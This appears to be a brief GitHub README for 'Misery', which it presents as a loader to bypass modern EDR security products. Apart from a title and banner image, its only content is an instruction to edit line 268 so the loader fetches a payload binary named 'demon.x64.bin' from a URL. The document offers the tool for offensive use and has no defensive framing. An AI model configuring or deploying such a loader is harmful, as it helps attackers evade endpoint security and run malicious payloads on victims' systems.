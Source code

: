 # Misery
## Misery Loader to bypass modern EDR solutions
![miserybanner](https://i.imgur.com/yCk788y.jpeg)


### Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"

